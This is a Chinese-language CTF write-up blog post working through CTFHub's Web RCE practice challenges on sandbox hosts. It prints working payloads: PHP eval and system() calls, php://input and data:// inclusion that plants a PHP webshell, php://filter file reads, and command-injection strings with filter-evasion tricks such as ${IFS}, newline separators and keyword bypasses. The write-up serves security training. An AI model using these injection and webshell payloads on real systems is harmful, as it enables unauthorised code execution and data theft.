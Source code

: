 ```yaml
---
layout: post
title: CTFHub Web RCE
subtitle: CTFHub Web RCE
date: 2023-07-02 17:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - CTFHub
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```


## 1. RCE

### 1.1. eval 执行

![image](https://img.ghostliner.top/HxrYS3.png)

传入 cmd 参数

```php
system("ls -lR / | grep flag");
```

![image](https://img.ghostliner.top/qNEyyj.png)

```php
system("find / -name flag_14104");
```

![image](https://img.ghostliner.top/9C8iWe.png)

```php
system("cat /flag_14104");
```

`ctfhub{d3eaaa2187eddb495ba02f6e}`

### 1.2. 文件包含

![image](https://img.ghostliner.top/jmFpp4.png)

分析代码，GET 传 file 参数不能有“flag”字符，自带 shell.txt 文件

```uri
http://challenge-78e9fffaec2d5817.sandbox.ctfhub.com:10800/?file=shell.txt
```

蚁剑连接

![image](https://img.ghostliner.top/xZi4Lq.png)

### 1.3. php://input

![image](https://img.ghostliner.top/VxOlc8.png)

![image](https://img.ghostliner.top/AuRO1e.png)

成功

```php
a=<?php system("ls /");?>
a=<?php system("cat /flag_21991");?>
```

![image](https://img.ghostliner.top/21aV0j.png)

### 1.4. 远程包含

![image](https://img.ghostliner.top/ry5rgQ.png)

```url
http://challenge-057c54b0b096a464.sandbox.ctfhub.com:10800/?file=data://,<?php fputs(fopen('shell.php','w'),'123<?php eval($_POST["code"]);?>');
```

成功

![image](https://img.ghostliner.top/EOIWV4.png)

### 1.5. 读取源代码

![image](https://img.ghostliner.top/XEYP2h.png)

分析：file 参数以 `php://` 开头，存在 `/flag` 文件

```url
http://challenge-a8afd380d641eed1.sandbox.ctfhub.com:10800/?file=php://filter/resource=/flag
```

![image](https://img.ghostliner.top/AjZYM4.png)

### 1.6. 命令注入

```shell
127.0.0.1|ls
```

![image](https://img.ghostliner.top/cKK2E9.png)

```shell
127.0.0.1|cat 262363244510708.php
```

![image](https://img.ghostliner.top/P6tAJ6.png)

### 1.7. 过滤 cat

**可以使用 tac、head、tail**

`127.0.0.1|ls`

![image](https://img.ghostliner.top/T8tX0v.png)

`127.0.0.1|head flag_42519488108.php`

![image](https://img.ghostliner.top/uMbovh.png)

### 1.8. 过滤空格

**可以使用 <、${IFS}**

`127.0.0.1|ls`

![image](https://img.ghostliner.top/rp3hlM.png)

```url
http://challenge-66d5d23f43cc02ba.sandbox.ctfhub.com:10800/?ip=127.0.0.1;cat<flag_35921562431926.php
```

![image](https://img.ghostliner.top/P1aFEZ.png)

### 1.9. 过滤目录分隔符

**多重命令执行，cd 到指定目录再 cat 内容**
![image](https://img.ghostliner.top/VT5WHH.png)

`127.0.0.1|cat flag_is_here` 无内容，`ls -l` 分析是目录

![image](https://img.ghostliner.top/Yic2Pf.png)

查看目录

![image](https://img.ghostliner.top/t1lY7K.png)

```url
http://challenge-ccfac5e714299f03.sandbox.ctfhub.com:10800/?ip=127.0.0.1;cd flag_is_here;cat flag_27471845213010.php
```

![image](https://img.ghostliner.top/17za4S.png)

### 1.10. 过滤运算符

![image](https://img.ghostliner.top/FXaBnm.png)

只过滤了 `|`、`&` ，未过滤 `;`

`127.0.0.1|ls`

![image](https://img.ghostliner.top/Jb0m05.png)

`127.0.0.1;cat flag_69852691721920.php`

![image](https://img.ghostliner.top/6ygJ0I.png)

### 1.11. 综合过滤练习

![image](https://img.ghostliner.top/sDdCQa.png)

过滤了 `|`、`&`、`;`、` `、`/`、`cat`、`flag`、`ctfhub`

```php
127.0.0.1%0als
```

![image](https://img.ghostliner.top/stGyCh.png)

```php
127.0.0.1%0als${IFS}-R # ${IFS}代替空格ls -R
```

![image](https://img.ghostliner.top/uUGqij.png)

```php
127.0.0.1%0amv${IFS}fla*${IFS}fff%0als${IFS}-R #将文件夹flag改名为fff
```

![image](https://img.ghostliner.top/ORtTf5.png)

![image](https://img.ghostliner.top/OtLqGW.png)

flag 文件无权限改名

```php
127.0.0.1%0acd${IFS}fff%0agrep${IFS}"ctf"${IFS}*.php #使用grep搜索*.php文件避开关键字
```

![image](https://img.ghostliner.top/QyhraO.png)
